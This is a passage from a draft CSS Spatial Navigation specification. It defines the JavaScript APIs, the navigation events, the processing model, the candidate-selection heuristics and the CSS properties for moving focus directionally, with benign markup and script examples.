See [§ 5 JavaScript API](#css-spatial-nav-1:js-api) for details about the JavaScript API, [§ 6.2 Navigation Event Types](#css-spatial-nav-1:events-nav-type) for details about the various events, and [§ 9 Controlling spatial navigation through declarative means](#css-spatial-nav-1:declarative) for details about the CSS properties.

> **Example:** This example shows how a series of focusable elements arranged in a scrollable element would be navigated when using spatial navigation. For the sake of keeping the description simple, this example assumes a user agent where spatial navigation is triggered using arrow keys.
>
>  
>
> Moving focus to the visible element in the spatial navigation container.
>
> On the left of figure 2, "Box 2" is focused. Pressing the `ArrowDown` key moves the focus to "Box 3" without scrolling because "Box 3" is visible in the scrollport of the spatial navigation container.
>
>    
>
> Moving focus to the hidden element in the spatial navigation container.
>
> On the first of figure 3, under "Box 3", there isn’t any visible element in the scrollport. Therefore, the effect of pressing the `ArrowDown` is to scroll down, as shown in the second. The next press of the `ArrowDown` key makes "Box 4" come into the scrollport, and the focus will move to it when there is additional pressing the `ArrowDown`, as the fourth.
>
> This example uses the markup as follows:
>
> ```css
> #scroller {
>     width: 700px;
>     height: 700px;
>     overflow-x: hidden;
>     overflow-y: auto;
> }
>
> .box {
>     width: 150px;
>     height: 110px;
>     background-color: blue;
> }
>
> .box:focus {
>     background-color: red;
> }
> ```
>
> ```html
> <div id="scroller">
>     <div class="box" tabindex="0">Box 1</div>
>     <div class="box" tabindex="0">Box 2</div>
>     <div class="box" tabindex="0">Box 3</div>
>     <div class="box" tabindex="0">Box 4</div>
> </div>
> ```

### 4.  Triggering Spatial Navigation {#css-spatial-nav-1:triggering}

When the user triggers spatial navigation in a given direction, the user agent must run the spatial navigation steps in that direction.

This specification does not define what UI mechanism user agents should offer to users to trigger spatial navigation. This intentionally left for user agents to decide.

> **Note:** It is expected that user agents on devices with limited input capabilities, such as TVs operated with a remote control, feature phones, or devices operated with a game controller, will use spatial navigation as their primary or exclusive navigation mechanism.

Although user agents can implement the processing model and APIs defined by the specification, this specification recommends that user agents should offer a means for users to trigger spatial navigation directly, without having to use the APIs.

> **Note:** Conversely, the author should assume that spatial navigation may be triggered by the user agent in response to user actions even if the author has not invoked any of the APIs.

Regardless of the actual mechanism chosen to trigger spatial navigation, the following requirements apply:

- If the mechanism the user must use to trigger spatial navigation would normally fire a `UIEvent`, the event must be fired prior to running the spatial navigation steps and these steps must not be run if that event’s canceled flag gets set.

  > **Example:** Gaming devices may trigger spatial navigation based on pressing the D-pad. This would result in firing a keydown event with the key set to one of `ArrowDown`, `ArrowLeft`, `ArrowRight`, or `ArrowUp`, followed if not canceled by running the spatial navigation steps, including firing the relevant `NavigationEvent`s.
  >
  > A user agent on a desktop computer that triggers spatial navigation using the arrow keys of the keyboard would follow the same sequence.
- If the mechanism the user must use to trigger spatial navigation would also perform other actions in some contexts, the user agents should in these contexts give priority to these other actions and execute them instead of spatial navigation. It must not trigger both.

  > **Example:** In a user agent that triggers spatial navigation using the arrow keys without modifier keys, and uses these same arrow keys to move the text insertion caret when an editable element is focused, the arrow keys should by default to moving the caret. Spatial navigation would only be triggered by the arrow keys when the focused element is not editable or when it is editable, but the caret cannot move any further in the requested direction.

  An exception is made for scrolling: since spatial navigation itself handles scrolling (in addition to moving the focus) user agents should not offer the same mechanism to trigger both spatial navigation and the scrolling behavior separate from spatial navigation. However, user agents may offer a way for the user to switch between different modes, or offer both based on different UI mechanisms.

  > **Example:** A user agent may have a setting to let the user choose between using the arrow keys without modifier keys for spatial navigation or for scrolling. Another one may offer scrolling on arrow keys without modifiers, and spatial navigation on arrow keys when pressed together with the `Shift` key, or on the `W` `A` `S` `D` keys. Offering only spatial navigation or only scrolling as responses to pressing arrow keys would also be possibilities.

### 5.  JavaScript API {#css-spatial-nav-1:js-api}

#### 5.1.  Triggering Navigation Programmatically {#css-spatial-nav-1:high-level-api}

The `navigate()` method enables the author to trigger spatial navigation programmatically, as if the user had done so manually (for instance, by pressing the arrow keys in a browser where that is the way to trigger spatial navigation).

> **Note:** As this triggers the same processing model as manual navigation, all the same results should be expected: the same chain of events will be fired and the same element will be scrolled or focused.

> **Note:** The author can use this to trigger spatial navigation based on a different UI mechanism than the one assigned by the user agent, such as mapping to different keys, or triggering spatial navigation from a clickable on-screen directional pad, or in reaction to other events than UI ones. It could also be used when an author wants to interrupt navigation to do some asynchronous operation (e.g. load more content in an infinite scroller) then resume the navigation where they canceled.

> **Note:** This API is also useful for testing purposes, as there it is difficult to trigger spatial navigation that does not depend on vendor specific UI conventions.

```webidl
enum SpatialNavigationDirection {
    "up",
    "down",
    "left",
    "right",
};

partial interface Window {
    undefined navigate(SpatialNavigationDirection dir);
};
```

When the **`navigate(dir)`** method is called, the user agent must run the following step:

- If direction *dir* is `"up"`, `"down"`, `"left"`, or `"right"`, run the spatial navigation steps in *dir*.

> **Issue:** The name of this API is under discussion [[Issue #3387]](https://github.com/w3c/csswg-drafts/issues/3387)

#### 5.2.  Low level APIs {#css-spatial-nav-1:low-level-api}

These APIs are designed to be low level constructs following the processing model closely. As such, they should be easy to use by the author who wants to extend or override the way spatial navigation works.

```webidl
enum FocusableAreaSearchMode {
    "visible",
    "all"
};

dictionary FocusableAreasOption {
    FocusableAreaSearchMode mode;
};

dictionary SpatialNavigationSearchOptions {
    sequence<Node>? candidates;
    Node? container;
};

partial interface Element {
    Node getSpatialNavigationContainer();
    sequence<Node> focusableAreas(optional FocusableAreasOption option = {});
    Node? spatialNavigationSearch(SpatialNavigationDirection dir, optional SpatialNavigationSearchOptions options = {});
};
```

> **Note:** The way the direction is expressed allows us to expand to more than 4-way navigation later if this is found necessary. More directional keywords or a numerical angle could be added.

> **Note:** the `focusableAreas()` and `getSpatialNavigationContainer()` methods are at-risk.

When these methods are called, the user agent must run the steps described below:

****`getSpatialNavigationContainer()`****

: 1. Return the nearest ancestor of the element that is a spatial navigation container, or the document if the nearest spatial navigation container is the viewport.

  > **Note:** If the element is a spatial navigation container, `getSpatialNavigationContainer()` also returns the nearest spatial navigation container, not the element itself.

****`focusableAreas(option)`****

: 1. Let *visibleOnly* be `false` if *option* is present and its value is equal to `all`, or `true` otherwise.
  2. Let *areas* be the result of finding focusable areas within the element with *visibleOnly* as argument.
  3. Return *areas*

> **Example:** The following code shows how to get all the visible focusable elements in the current page using `focusableAreas()`. If the method finds a spatial navigation container, it recursively finds focusable areas inside it. Because the value of the `mode` attribute in this method is `visible`, the focusable elements which aren’t inside the scrollport are excluded from the result.
>
> ```
> <body>
>     <button></button>
>     <div style="width:300px; height:200px; overflow-x: scroll;">
>         <button style="left:25px;"></button>
>         <button style="left:150px;"></button>
>         <button style="left:350px;"></button>
>     </div>
> </body>
> ```
>
> ```
> const focusableAreas = document.body.focusableAreas({mode: 'visible'});
> focusableAreas && focusableAreas.forEach(focusable => {
>   focusable.style.outline = '5px solid red';
> });
> ```
>
> The figure below is the result of this code.
>
> 
>
> Find all visible focusable areas inside the document.

****`spatialNavigationSearch(dir, options)`****

: 1. Let *direction* be the value of *dir*.
  2. Let *container* be

    - if the value of `container` attribute of *options* is not null,

      - itself, if it is spatial navigation container.
      - its nearest spatial navigation container ancestor, otherwise.
    - else the element’s nearest spatial navigation container ancestor.
  3. Let *areas* be

    - the value of `candidates` attribute of *options* if it is not `null`,
    - result of finding focusable areas within *container* otherwise.
  4. Return the result of selecting the best candidate among *areas* within *container* in *direction* from the element.

> **Note:** When neither a container nor a list of candidates is provided, this only searches through the visible focusable areas of the nearest spatial navigation container ancestor. *If there isn’t any, this does not climb further up the ancestry chain, and the result will be `null`.*

### 6.  Navigation Events {#css-spatial-nav-1:events-navigationevent}

#### 6.1.  Interface NavigationEvent {#css-spatial-nav-1:interface-focusevent}

The `NavigationEvent` interface provides specific contextual information associated with spatial navigation.

To create an instance of the `NavigationEvent` interface, use the `NavigationEvent` constructor, passing an optional `NavigationEventInit` dictionary.

```webidl
[Exposed=Window]
interface NavigationEvent : UIEvent {
    constructor(DOMString type,
                optional NavigationEventInit eventInitDict = {});
    readonly attribute SpatialNavigationDirection dir;
    readonly attribute EventTarget? relatedTarget;
};

dictionary NavigationEventInit : UIEventInit {
    SpatialNavigationDirection dir;
    EventTarget? relatedTarget = null;
};
```

#### 6.2.  Navigation Event Types {#css-spatial-nav-1:events-nav-type}

*This section and its subsections are not normative.*

The Navigation event types are summarized below. For full normative details, see [§ 8 Processing Model](#css-spatial-nav-1:processing-model).

##### 6.2.1.  **`navbeforefocus`** {#css-spatial-nav-1:event-type-navbeforefocus}

This event occurs when there is a valid result of selecting the best candidate.

| Field | Value |
| --- | --- |
| Type | **`navbeforefocus`** |
| Interface | `NavigationEvent` |
| Bubbles | Yes |
| Cancelable | Yes |
| Attributes of the event | `Event`.`target` The focused element or if no element focused, then the body element if available, otherwise the root element `NavigationEvent`.`relatedTarget` The DOM anchor of the focusable area that will be focused `NavigationEvent`.`dir` The direction of the navigation as requested by the user |

The user agent **dispatches navbeforefocus event** before spatial navigation moves the focus. The event target is the element which has focus and the `relatedTarget` is the element which is about to receive focus.

If navigation-override is disabled in the node document of *eventTarget* for the origin of the active document of the top-level browsing context, this event won’t be dispatched.

> **Example:** This example shows the event order when pressing the `ArrowRight` key. For the sake of keeping the description simple, this example assumes a user agent where spatial navigation is triggered using arrow keys.
>
> |  | Event type | `KeyboardEvent`.`key` | Notes |
> | --- | --- | --- | --- |
> | 1 | keydown | `ArrowRight` | MUST be a key which can activate spatial navigation, such as the arrow keys, or spatial navigation is not activated. |
> | 2 | navbeforefocus |  | Sent if the candidates for spatial navigation is not `null`, or this is not generated. |
> | 3 | focusin |  | Sent before the target element receives focus. |
> | 4 | focus |  | Sent after the target element receives focus. |

> **Example:** The following code changes the behavior of spatial navigation so that when a scroll container would get focused, if it has at least one visible focusable descendant, the focus is automatically transferred to it, recursively.
>
> ```
> document.addEventListener('navbeforefocus', e => {
>     e.preventDefault();
>
>     let nextTarget = e.relatedTarget;
>     if (isSpatialNavigationContainer(nextTarget)) {
>         const areas = nextTarget.focusableAreas();
>
>         if (areas.length > 0) {
>             nextTarget = nextTarget.spatialNavigationSearch(e.dir, { candidates: areas });
>         }
>     }
>     nextTarget.focus();
> });
>
> function isSpatialNavigationContainer(element) {
>     return (!element.parentElement) ||
>         (element.nodeName === 'IFRAME') ||
>         (isScrollContainer(element)) ||
>         (isCSSSpatNavContain(element));
> }
> ```

##### 6.2.2.  **`navnotarget`** {#css-spatial-nav-1:event-type-navnotarget}

This event occurs before going up the tree to search candidates in the nearest ancestor spatial navigation container when spatial navigation has failed to find any candidate within the current spatial navigation container, and in cases where the spatial navigation container is scrollable, when it cannot be scrolled further.

| Field | Value |
| --- | --- |
| Type | **`navnotarget`** |
| Interface | `NavigationEvent` |
| Bubbles | Yes |
| Cancelable | Yes |
| Attributes of the event | `Event`.`target` The focused element or if no element focused, then the body element if available, otherwise the root element `NavigationEvent`.`relatedTarget` The spatial navigation container that was searched in. `NavigationEvent`.`dir` The direction of the navigation as requested by the user |

The user agent **dispatches navnotarget event** with initializing the event target as the element which has focus and the `relatedTarget` as spatial navigation container of the event target.

If navigation-override is disabled in the node document of *eventTarget* for the origin of the active document of the top-level browsing context, this event won’t be dispatched.

> **Example:** This example shows the event order when pressing the `ArrowDown` key in the situation like the following figure. For the sake of keeping the description simple, this example assumes a user agent where spatial navigation is triggered using arrow keys.
>
> 
>
> Moving focus when there isn’t any candidate in the scroll container.
>
> |  | Event type | Event target | `relatedTarget` | Notes |
> | --- | --- | --- | --- | --- |
> | 1 | keydown | `#box2` | N/A | MUST be a key which can activate spatial navigation, such as the arrow keys, otherwise spatial navigation is not triggered. |
> | 2 | navnotarget | `#box2` | `#scrollContainer` | Sent if `#scrollContainer` doesn’t contain any candidate and cannot be scrolled, otherwise this would not be generated. |
> | 3 | navbeforefocus | `#box2` | `#box3` | Sent if the candidates in `#container` is not `null`, otherwise this would not be fired. |
> | 4 | focusin | `#box3` | `#box2` | Sent before the target element receives focus. |
> | 5 | focus | `#box3` | `#box2` | Sent after the target element receives focus. |
>
> The result of this example is the figure as follows:
>
> 
>
> The result of moving focus when there isn’t any candidate in the scrollport and scroll container cannot be scrolled.
>
> This example uses the markup as follows:
>
> ```css
> #container {
>     width: 900px;
>     height: 1400px;
> }
>
> #scrollContainer {
>     width: 700px;
>     height: 700px;
>     overflow-x: hidden;
>     overflow-y: auto;
> }
>
> .item {
>     width: 150px;
>     height: 110px;
>     background-color: blue;
> }
>
> .item:focus {
>     background-color: red;
> }
> ```
>
> ```html
> <div id="container">
>     <div id="scrollContainer">
>         <div id="box1" class="item" tabindex="0">Box 1</div>
>         <div id="box2" class="item" tabindex="0">Box 2</div>
>     </div>
>     <div id="box3" class="item" tabindex="0">Box 3</div>
> </div>
> ```

> **Example:** The following code changes the behavior of spatial navigation to trap the focus within a spatial navigation container which is vertically scrollable. When no further focusable elements can be found in the requested direction and the spatial navigation container cannot be scrolled any further, the focus loops back to the other side instead of moving outside of it.
>
> However, the focus can still be moved outside by sequential navigation, mouse interaction, or programmatic calls to `focus()`.
>
> ```
> scrollContainer.addEventListener('navnotarget', e => {
>     let nextTarget = null;
>     const verticalDir = ['up', 'down'];
>     const candidates = e.relatedTarget.focusableAreas({'mode': 'all'});
>
>     // Prevent default only when navigation direction is on y-axis
>     if (verticalDir.includes(e.dir) && (candidates.length > 0)) {
>         e.preventDefault();
>
>         if (e.dir === 'down') {
>             nextTarget = candidates[0];
>         } else if (e.dir === 'up') {
>             nextTarget = candidates[candidates.length-1];
>         }
>         nextTarget.focus();
>     }
> });
> ```

### 7.  The navigation-override policy-controlled feature {#css-spatial-nav-1:policy-feature}

The **navigation-override** policy-controlled feature controls the availability of mechanisms that enables the page author to take control over the behavior of spatial navigation, or to cancel it outright.

- The feature name is "`navigation-override`"
- The default allowlist for navigation-override is "`self`"

As defined in further details in [§ 8.3 Navigation](#css-spatial-nav-1:nav), if navigation-override is disabled in a document, the navigation events (see [§ 6 Navigation Events](#css-spatial-nav-1:events-navigationevent)) will not be fired.

> **Note:** This is to prevent a hostile iframe from using these events in order to hijack the focus. We recognize that there exist other mechanisms predating spatial navigation that malicious the author could use to interfere with the user’s ability to control where the focus goes. Despite that, it seems worthwhile to attempt not to increase this attack surface, although it is possible that such attacks are already sufficiently easy to perform that this is a lost cause. Further feedback on this topic, based on experience with implementation or with mitigating such attacks, is very welcome.

### 8.  Processing Model {#css-spatial-nav-1:processing-model}

The [§ 3 Overview](#css-spatial-nav-1:overview) section gives a high level idea of how spatial navigation works, to help readers of this specification build a general mental model. It uses intuitive but imprecise terminology, and glosses over many details for the sake of readability.

This section defines the corresponding normative behavior and aims for as much detail as necessary to fully define the behavior.

#### 8.1.  Glossary {#css-spatial-nav-1:glossary}

The following term definitions have been specified to explain the processing model for spatial navigation. See the links within the definitions for more information.

The **boundary box** of an object is defined as follows:

- if the object is a point, the boundary box is that point
- if the object is a box or box fragment, the boundary box is the border box of that box or fragment
- if the object is a focusable area which is not an element, the boundary box is the axis-aligned the bounding box of that focusable area

The **inside area** of an object is defined as follows:

- if the object is a scroll container, its optimal viewing region
- if the object is a document, the viewport of its browsing context
- if the object is a box or box fragment, its boundary box
- otherwise, the optimal viewing region of its nearest ancestor scroll container

> **Note:** If an object is offscreen, the inside area should be the nearest visible ancestor container.

> **Issue:** CSS should have a term for “border box taking into account corner shaping properties like border-radius”. [[w3c/csswg-drafts Issue #2324]](https://github.com/w3c/csswg-drafts/issues/2324)

The **search origin** is the origin for searching next target.

The **spatial navigation starting point** is the origin for searching next target which is set by the user agent. It is initially unset and it can be element or point.

> **Note:** For example, the user agent could set it to the position of the user’s click if the user clicks on the document contents, and unset when the focus is moved (by spatial navigation or any other means).

If the user agent sets both a spatial navigation starting point and a sequential focus navigation starting point, they must not be set differently.

#### 8.2.  Groupings of elements {#css-spatial-nav-1:grouping}

While the processing model for spatial navigation is to work from the layout of the document and the relative position of focusable elements, the user agent is required to prioritize finding elements from a local logical grouping, only looking for focusable elements outside of the grouping if a suitable one cannot be found inside it (see [§ 8.3 Navigation](#css-spatial-nav-1:nav) for details).

Such groupings are called **spatial navigation containers**.

By default, spatial navigation containers are established by:

- The viewport of a browsing context (not limited to the top-level browsing context)
- scroll containers

Additional spatial navigation containers can be created using the `spatial-navigation-contain` property (see [§ 9.1 Creating additional spatial navigation containers: the spatial-navigation-contain property](#css-spatial-nav-1:container)).

#### 8.3.  Navigation {#css-spatial-nav-1:nav}

The processing model for spatial navigation describes how spatial navigation works in general.

Overview of the Spatial navigation processing model   This figure is not normative. It gives an overview of the processing model further defined in this section, assuming that the `spatial-navigation-action` property has its initial value of `auto`.

To run the **spatial navigation steps** in *direction*, do the following:

1. Let *searchOrigin* be the result of setting the search origin.
2. - If *searchOrigin* is an node, let *eventTarget* be *searchOrigin*
  - else (assert: *searchOrigin* is a position) let *eventTarget* be the node which contains *searchOrigin*
3. If *eventTarget* is the Document or the document element, set *eventTarget* be the body element if it is not `null` or to the document element otherwise.
4. - If *eventTarget* is scroll container and the computed value of the `spatial-navigation-action` property on *eventTarget* is `scroll` and *eventTarget* can be manually scrolled, then directionally scroll the element *eventTarget* and return.
  - Else, if *eventTarget* is either a scroll container or the document

    1. Let *candidates* be the result of finding focusable areas within *eventTarget* with the argument *visibleOnly* set to `false` if computed value of the `spatial-navigation-action` property on *eventTarget* is `focus` or to `true` otherwise.
    2. - If the computed value of the `spatial-navigation-action` property on *eventTarget* is not `focus` and *eventTarget* can be manually scrolled, then directionally scroll the element *eventTarget* in *direction* and return.
      - Else if *candidates* contains at least 1 item:

        1. Let *bestCandidate* be the result of selecting the best candidate within *candidates* in *direction* starting from *searchOrigin*
        2. Dispatches navbeforefocus event at *eventTarget* with *direction* and *bestCandidate*.
        3. Run the focusing steps for *bestCandidate* and return
      - Else, fall back to the next step.
  - Else, fall back to the next step.
5. Let *container* be the nearest ancestor of *eventTarget* that is a spatial navigation container.
6. *Loop*: Let *candidates* be the result of finding focusable areas within *container* with the argument *visibleOnly* set to `false`  if computed value of the `spatial-navigation-action` property on *container* is `focus` or to `true` otherwise, excluding *eventTarget*
7. If *candidates* is empty:

  - If the computed value of the `spatial-navigation-action` property on *container* is not `focus` and *container* is a scroll container that can be manually scrolled, directionally scroll the element *container* in *direction* and return.
  - Else,

    1. Dispatches navnotarget event at *eventTarget* with *direction* and *container*.
    2. - If *container* is the document element of the top-level browsing context, then return. The user agent may transfer focus to its own controls (if any) honouring *direction*.
      - Else, if *container* is the document element of a nested browsing context then:

        1. Set *searchOrigin* to *container*’s browsing context container
        2. Set *eventTarget* be *searchOrigin*
        3. Set *container* to the nearest ancestor of *eventTarget* that is a spatial navigation container.
        4. Return to the step labeled *loop*.
      - Else, set *container* to its closest ancestor that is itself a spatial navigation container and return to the step labeled *loop*.
8. Let *bestCandidate* be the result of selecting the best candidate within *candidates* in *direction* starting from *eventTarget*.
9. Dispatches navbeforefocus event at *eventTarget* with *direction* and *bestCandidate*.
10. Run the focusing steps for *bestCandidate* and return.

#### 8.4.  Focus Navigation Heuristics {#css-spatial-nav-1:heuristics}

> **Note:** The following algorithms are inspired from Chrome’s implementation as well as from the [old WICD Spec](https://www.w3.org/TR/WICD/#focus-handling). Implementors who find better approaches or refinements to these approaches are strongly encouraged to provide feedback and help improve this specification in order to maximize interoperability. In particular, divergences in how user agents find focusable areas may cause some elements to be focusable in some user agents but not in others, which would be bad for users.

All geometrical operations in this section are defined to work on the result of CSS layout, including all graphical transformations, such as relative positioning or [CSS-TRANSFORMS-1].

To **set the search origin**, run the following steps:

1. Let *searchOrigin* be the DOM anchor of the currently focused area of a top-level browsing context.
2. If the spatial navigation starting point is not `null` and it is inside *searchOrigin*, then return it.
3. Otherwise, return *searchOrigin*.

If the status of *focus target* changed not by moving the focus, **update the search origin** as following:

1. If *focus target* becomes actually disabled or expressly inert or not being rendered, then let *searchOrigin* be the boundary box of *focus target*.
2. If *focus target* is removed, then let *searchOrigin* be the boundary box of *focus target* with the position of *focus target* when it existed.
3. If *focus target* is completely off-screen, then let *searchOrigin* be the viewport of *focus target*’s nearest visible spatial navigation container.

> **Note:** The user agent should update the search origin, for example, when the focused element was scrolled out by mouse scrolling or vanished from the viewport.

To **find focusable areas** within a containing element *C*, with an optional *visibleOnly* argument that defaults to `true`, run the following steps:

1. Let *focusables* be the set of all the focusable areas whose DOM anchor are descendants of *C*. In the case of boxes with several box fragments, each box fragment is considered separately.
2. The user agent should remove from *focusables* items that have a DOM anchor whose `tabindex` attribute is set to a negative value.

   > **Note:** This is a "SHOULD" in order to mirror the exclusion of elements with negative tabindex from the sequential focus navigation order as defined in tabindex.
3. If *visibleOnly* is `false`, return *focusables*.

   > **Note:** *focusables* may be empty
4. Let *visibles* be the subset of items in *focusables* whose boundary box is at least partly within the inside area of *C*.

   > **Advisement:** Except for elements that are in the currently non visible part of a scroller, spatial navigation does not automatically exclude elements which cannot be clicked on, for example, due to being obscured by some other element. To avoid breaking assumptions in the application logic if a user actually focuses and activates such an element, and to avoid confusing users by focusing invisible or apparently unreachable elements, the author should use make these elements unreachable to spatial navigation using the same best practices as for making elements unreachable to sequential navigation, such as using `tab-index="-1"` or the [`inert`](https://github.com/WICG/inert) attribute.
5. Return *visibles*.

   > **Note:** *visibles* may be empty

To **select the best candidate** within a set of *candidates* in a direction *dir*, starting from *searchOrigin*, run the following steps:

1. If *candidates* is empty, return `null`
2. If *candidates* contains a single item, return that item
3. Let *insiders* be the subset of *candidates*

  - whose boundary box fully overlaps with inside area of *searchOrigin*
  - whose boundary box partially overlaps with inside area of *searchOrigin* as

    - top edge is below the top edge of *searchOrigin*’s boundary box if *dir* is `down`
    - bottom edge is above the bottom edge of *searchOrigin*’s boundary box if *dir* is `up`
    - right edge is left of the right edge of *searchOrigin*’s boundary box if *dir* is `left`
    - left edge is right of the left edge of *searchOrigin*’s boundary box if *dir* is `right`

    > **Note:** More detail condition about how the element is overlapped with the search origin affects the sequence of focus movement. The sequence of focus movement is related to UX, so it depends on the UA-defined mechanism.

   > **Note:** this sub-setting is necessary to avoid going in the opposite direction than the one requested.
4. - If *insiders* is non empty,

    1. Let *closest subset* be the subset of *insiders* whose boundary box’s

      - top edge is closest to the top edge of inside area of *searchOrigin* if *dir* is `down`
      - bottom edge is closest to the bottom edge of inside area of *searchOrigin* if *dir* is `up`
      - right edge is closest to the right edge of inside area of *searchOrigin* if *dir* is `left`
      - left edge is closest to the left edge of inside area of *searchOrigin* if *dir* is `right`
    2. If *closest subset* contains a single item, return that item, else return the first item of *closest subset* in document order, unless its boundary box overlaps with the boundary box of another item and that item is higher in the CSS painting order. In that case, return that item instead, unless it too is overlapped with another higher item, recursively.
  - Else

    1. Set *candidates* be the subset of its items which satisfies one of the following conditions:

      - the item doesn’t overlap with *searchOrigin* and its boundary box’s

        - top edge is below the bottom edge of *searchOrigin*’s boundary box if *dir* is `down`
        - bottom edge is above the top edge of *searchOrigin*’s boundary box if *dir* is `up`
        - right edge is left of the left edge of *searchOrigin*’s boundary box if *dir* is `left`
        - left edge is right of the right edge of *searchOrigin*’s boundary box if *dir* is `right`
    2. For each *candidate* in *candidates*, find the shortest distance between *searchOrigin*.
    3. Return the item of the *candidates* set that has the smallest distance. If several have the same distance, return the first one in document order, unless its boundary box overlaps with the boundary box of another item at the same distance, and that item is higher in the CSS painting order. In that case, return that item instead, unless it too is overlapped with another higher item at the same distance, recursively.

To **find the shortest distance** between a *reference* and a *candidate* in direction *dir*, find the points *P1* and *P2*, respectively within the boundary boxes of the *reference* and of the *candidate*, that minimize the *distance* as defined as below:

```css
distance = euclidean + displacement - alignment - sqrt(Overlap)
```

The meaning of each term is as follows:

***euclidean***

: The euclidean distance between *P1* and *P2*

***displacement***

: The degree of displacement in *dir* between the *reference* and the *candidate*, defined as

  ```
  displacement = (absolute distance on the axis orthogonal to dir between P1 and P2 +
                  orthogonalBias) *
                 orthogonalWeight
  ```

***orthogonalBias*:**

: - If the *dir* is `left` or `right`, the height of the axis-aligned bounding box of *reference* / 2
  - Else if the *dir* is `up` or `down`, the width of the axis-aligned bounding box of *reference* / 2

***orthogonalWeight*:**

: - If the *dir* is `left` or `right`, 30
  - Else if the *dir* is `up` or `down`, 2

***alignment***

: The degree of alignment in *dir* between the *reference* and the *candidate*, defined as:

  ```
  alignment = alignBias * alignWeight
  ```

***alignBias*:**

: - If the *dir* is `left` or `right`, *projectedOverlap* / height of the axis-aligned bounding box of *reference*
  - Else if the *dir* is `up` or `down`, *projectedOverlap* / width of the axis-aligned bounding box of *reference*

***projectedOverlap*:**

: - If the *dir* is `left` or `right`, the length of the overlap between the horizontal projections onto the vertical axis of the *reference* and the *candidate*
  - Else if the *dir* is `up` or `down`, the length of the overlap between the vertical projections onto the horizontal axis of the *reference* and the *candidate*

  

  projectedOverlap

***alignWeight*:**

: 5

***sqrt(Overlap)***

: The square root of area of overlap between the *reference* and the *candidate*, or 0 if they do not overlap.

> **Note:** This general formula was picked from several plausible alternatives, based on which one most often matches intuition when used to select the best candidate in a series of [UX test cases](https://wicg.github.io/spatial-navigation/tests/ux/list.html). Similarly, the values of *alignWeight* and *orthogonalWeight* were also determined experimentally based on the same test cases. The resulting formula is somewhat complicated, but seems to give good answers. Suggestions for improvements or simplifications are welcome.

### 9.  Controlling spatial navigation through declarative means {#css-spatial-nav-1:declarative}

#### 9.1.  Creating additional spatial navigation containers: the `spatial-navigation-contain` property {#css-spatial-nav-1:container}

| Field | Value |
| --- | --- |
| Name: | **spatial-navigation-contain** |
| [Value:](#css-values-4:value-defs) | auto \| contain |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

****auto****

: If the element is a scroll container then it establishes a spatial navigation container, otherwise it does not.

****contain****

: The element establishes a spatial navigation container

> **Note:** In addition, as per [§ 8.2 Groupings of elements](#css-spatial-nav-1:grouping), the viewport of a browsing context (not limited to the top-level browsing context) also establishes a spatial navigation container.

> **Example:** The following example shows a simplified TV program schedule or calendar. It has a grid of elements representing TV shows or calendar entries and some UI buttons around it.
>
> In this case, the grid is quite sparse, so if the user tries to move down from "Foo", focus would be moved to "Next Week", as it is objectively closer in the down direction. The same is true for going down from "Bar": the focus would move to "Previous Week".
>
> |  | M | T | W | T | F | S | S |
> | --- | --- | --- | --- | --- | --- | --- | --- |
> | 0-6 |  |  |  |  |  |  | [Foo](#) |
> | 6-9 | [Bar](#) |  |  |  |  |  |  |
> | 9-12 |  | [Bat](#) |  |  |  |  |  |
> | 12-18 |  |  |  |  |  |  |  |
> | 18-21 |  |  |  |  |  |  | [Woo](#) |
> | 21-24 |  |  |  |  |  | [Baz](#) |  |
>
> ```
> <div>
>     <button>Previous Week</button>
>     <table>
>         <tr><td><th>M<th>T<th>W<th>T<th>F<th>S<th>S
>         <tr><td>0-6<td><td><td><td><td><td><td><a href="#">Foo</a>
>         <tr><td>6-9<td><a href="#">Bar</a><td><td><td><td><td><td>
>         <tr><td>9-12<td><td><a href="#">Bat</a><td><td><td><td><td>
>         <tr><td>12-18<td><td><td><td><td><td><td>
>         <tr><td>18-21<td><td><td><td><td><td><td><a href="#">Woo</a>
>         <tr><td>21-24<td><td><td><td><td><td><a href="#">Baz</a><td>
>     </table>
>     <button>Next Week</button>
> </div>
> ```
>
> However, the author may want to provide a different navigation experience giving priority to movements inside the grid once you have focused one of its items because the elements in the table are semantically related to each other.
>
> Adding `table { spatial-navigation-contain: contain; }` to the stylesheet would result this behavior.
>
> After that, the focus would move down from "Foo" to "Woo" instead of "Next Week", and from "Bar" to "Bat" instead of "Previous Week".
>
> It would still be possible to move the focus out of the table. For example, the focus would move to "Next week" by going right from "Foo" since there is nothing in the grid that is to the right.

> **Note:** the `spatial-navigation-contain` property is at-risk.

#### 9.2.  Controlling the interaction with scrolling: the `spatial-navigation-action` property {#css-spatial-nav-1:css-property-spatialnavigationaction}

| Field | Value |
| --- | --- |
| Name: | **spatial-navigation-action** |
| [Value:](#css-values-4:value-defs) | auto \| focus \| scroll |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | scroll containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

When the focus is inside of a scroll container and the user triggers spatial navigation, it is somewhat ambiguous whether they are requesting that the focus be moved in that direction, or whether the document should be scrolled in that direction. By default, this is automatically determined, but this property allows the author to decide between focusing or scrolling.

The precise behavior is defined in [§ 8.3 Navigation](#css-spatial-nav-1:nav), but a high level description of the effect of each value is provided below.

When spatial navigation is triggered, the behavior depends on the value of the `spatial-navigation-action` on the currently focused element if that element is a scroll container, or of its nearest scroll container ancestor if it isn’t.

****auto****

: If there are visible focusable elements within the scroll container in the direction requested, the closest one becomes focused. Otherwise, the scroll container is scrolled in the direction requested.

****focus****

: The focus is moved to the nearest focusable element within the scroll container if it can be manually scrolled in that direction, regardless of whether it is visible. If there are none or it can’t be scrolled in that direction, the scroll container is *not* scrolled, and the search continues up the ancestry chain instead.

  > **Note:** The scroll container may be scrolled as a side effect of focusing an element which was previously not in view, but it will not be directionally scrolled.

  > **Note:** If the `focus` value is given to `spatial-navigation-action`, navnotarget event occurs when there isn’t any visible candidate in the given direction within the viewport of the spatial navigation container even if the container can be scrolled more.

****scroll****

